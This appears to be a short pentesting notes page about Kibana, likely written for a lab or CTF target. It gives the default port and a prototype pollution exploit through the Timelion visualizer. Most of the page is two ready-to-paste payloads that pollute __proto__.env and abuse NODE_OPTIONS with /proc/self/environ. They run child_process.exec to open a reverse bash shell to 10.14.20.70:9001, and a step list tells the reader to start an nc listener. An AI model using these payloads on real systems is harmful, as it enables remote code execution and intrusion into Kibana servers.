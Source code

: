 # Kibana 

Kibana provides search and data visualization capabilities for data indexed in Elasticsearch. The service runs per default on port 5601. Kibana also acts as the user interface for monitoring, managing, and securing an Elastic Stack cluster.

## Prototype pollution

Check `http://10.10.98.43:5601/`

![kibana](/Pentesting/_images/kibana.PNG)

## Exploit

1. Open Kibana
2. Past one of the following payload into the Timelion visualizer
4. Setup nc listener
3. Click run


Payloads:
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.14.20.70/9001 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.14.20.70/9001 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```